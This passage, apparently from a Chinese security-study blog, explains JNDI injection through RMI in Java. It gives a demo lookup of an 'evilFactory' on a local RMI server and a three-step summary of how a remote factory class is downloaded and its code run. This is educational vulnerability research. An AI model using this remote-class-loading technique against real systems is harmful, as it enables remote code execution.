 ```java
public class JndiDemo {
    public static void main(String[] args) throws NamingException {
        Hashtable<String,Object> env = new Hashtable<>();
        Context ctx = new InitialContext();
        ctx.lookup("rmi://localhost:1099/evilFactory");
    }
}

```  
恶意Factory的静态代码,构造方法,getObjectInstance()都被触发.
![](2023-02-20-18-15-02.png)  

总结RMI利用流程:
1. 被攻击端lookup()URL可控,因为动态转换,访问恶意的RMI服务.
2. RMI服务返回包含指向如何构建远程对象的Factory工厂类的远程地址Reference引用.  
3. 被攻击端根据该引用下载该Factory工厂类,调用其`getObjectInstance()`方法创建远程对象,在实例化Factory工厂类和`getObjectInstance()`方法时触发恶意代码.  
